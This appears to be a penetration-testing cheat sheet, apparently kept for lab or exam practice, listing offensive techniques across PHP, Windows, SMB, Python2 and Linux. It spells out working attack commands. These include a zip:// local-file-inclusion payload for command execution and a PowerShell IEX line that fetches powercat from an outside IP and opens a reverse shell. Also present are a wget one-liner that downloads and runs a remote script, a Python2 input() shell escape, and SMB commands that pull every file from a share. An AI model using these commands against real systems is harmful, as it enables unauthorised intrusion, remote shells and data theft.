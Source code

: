   ```
## using zip to smuggle php for LFI -> RCE
- https://rioasmara.com/2021/07/25/php-zip-wrapper-for-rce/?source=post_page-----b49a52ed8e38--------------------------------
1. ``` upload zip with cmd.php ``` to victim
2. run ``` index.php?file=zip://uploads/upload.zip%23cmd&cmd=id ```

# Windows
1. Run As Admin
    https://github.com/antonioCoco/RunasCs 
  ```
    . .\RunAs.ps1
    Invoke-RunasCs {username} {password} {cmd} 
  ```

2. PowerCat 
   - netcat for windows
   - https://github.com/besimorhino/powercat
   - ``` Powershell IEX(New-Object System.Net.WebClient).DownloadString('http://192.168.49.211/powercat.ps1');powercat -c 192.168.49.211 -p 5555 -e cmd ```

3. Powershell color enable
   ```
    "$($PSStyle.Background.BrightCyan)Power$($PSStyle.Underline)$($PSStyle.Bold)Shell$($PSStyle.Reset)"
   ```

# SMB 
1. first enum ``` smbclient -L //{ip} --option="client min protocol=core" -U '' ```
2. List shares: ``` smbclient -L \\{IP}\ -N ```
3. Connect to share ``` smbclient \\\\{IP}\\{share} -U '{domain}\{username}%{password}' ```
## Get/Download all files
```
  mask""
  recurse ON
  prompt OFF
  mget *
```

## setuserinfo
- modify user ac info
```
  Level 0: Basic information, such as username and full name.

  Level 1: Additional information, including home directory, script path, and profile path.

  Level 2: Further information, like password age, privileges, and logon script.

  Level 3: Detailed information, including all the above and group memberships.

  Level 4: Even more detailed information, including all the above and security identifier (SID).
```

## Python2
1. RCE in input() ```__import__('os').system("bash") ```

# Curl
- sometimes try to remove http:// if cant curl or wget
## Alternative:
- wget
### Oneliner 
- ``` wget 192.168.45.176/bash.sh -O /tmp/bash.sh && chmod +x /tmp/bash.sh && /tmp/bash.sh  ```

# Handling multimedia
- e.g. pdf
- ``` file {file} ```
- ``` strings {file} ``` check useful/hidden info e.g. username password etc. 